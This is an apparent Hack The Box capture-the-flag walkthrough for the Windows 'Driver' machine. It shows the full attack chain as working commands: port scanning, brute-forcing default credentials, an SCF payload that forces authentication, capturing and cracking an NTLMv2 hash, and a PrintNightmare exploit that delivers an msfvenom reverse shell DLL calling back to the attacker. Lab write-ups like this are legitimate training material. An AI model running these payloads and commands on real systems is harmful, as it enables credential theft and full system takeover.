 ## HTB: Driver Walkthrough

### Recon
```bash
nmap -p- -T4 10.10.11.106
nmap -sC -sV -p80,135,445 10.10.11.106
```
- Port 80: IIS HTTP, basic auth prompt ("MFP Firmware Update Center")
- Port 135/445: Typical Windows services
- `/etc/hosts` entry: `10.10.11.106 driver.htb`

### Web Brute-force
```bash
nmap -p80 --script http-brute 10.10.11.106
```
- **Found**: admin:admin
- Firmware upload page (printer model Ricoh)

### Forced Authentication (Responder Attack)
**SCF Payload**:
```ini
[Shell]
Command=2
IconFile=\\10.10.14.131\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
- Upload `.scf` via firmware update
- Start Responder:
```bash
sudo responder -I tun0 -A
```
- Captured NTLMv2 hash for user `tony`

### Crack NTLMv2 with Hashcat
```bash
hashcat -m5600 captured-hashes.txt /usr/share/wordlists/rockyou.txt --force
```
- **Cracked**: `tony:liltony`

### Access with Evil-WinRM
```bash
evil-winrm -i 10.10.11.106 -u 'DRIVER\\tony' -p 'liltony'
```
- Retrieved `user.txt`

### Enumeration for Privilege Escalation
```powershell
schtasks /query /fo LIST /v > lst.txt
```
- Found job: `C:\Users\tony\appdata\local\job\job.bat`
```bat
@echo off
:LOOP
%SystemRoot%\explorer.exe "C:\firmwares"
ping -n 20 127.0.0.1 > nul && powershell -ep bypass c:\users\tony\appdata\local\job\quit.ps1
DEL /q C:\firmwares\*
cls
GOTO :LOOP
```
- `quit.ps1` closes file explorer window if folder is open

### PrintNightmare Exploit (CVE-2021-1675)
```bash
git clone https://github.com/cube0x0/CVE-2021-1675
cd CVE-2021-1675
```
- Generate reverse shell DLL:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.216 LPORT=4444 -f dll > shell-x64.dll
```
- Configure and start Samba:
```ini
[smb]
    path = /tmp
    guest ok = yes
    read only = no
    browsable = yes
```
```bash
cp shell-x64.dll /tmp/
sudo service smbd start
```
- Patch impacket:
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 setup.py install
```
- Run exploit:
```bash
python3 CVE-2021-1675.py DRIVER/tony:liltony@10.10.11.106 \\10.10.14.216\smb\shell-x64.dll
```
- **Catch shell**:
```bash
nc -nvlp 4444
```

### Privilege Escalation
```bash
whoami
# nt authority\system
cat C:\Users\Administrator\Desktop\root.txt
```

### Summary
- Initial foothold through default creds on printer firmware page
- Forced authentication with `.scf` file to capture NTLM hash
- Used Evil-WinRM with cracked creds
- Privilege escalation using PrintNightmare exploit
- Full SYSTEM access achieved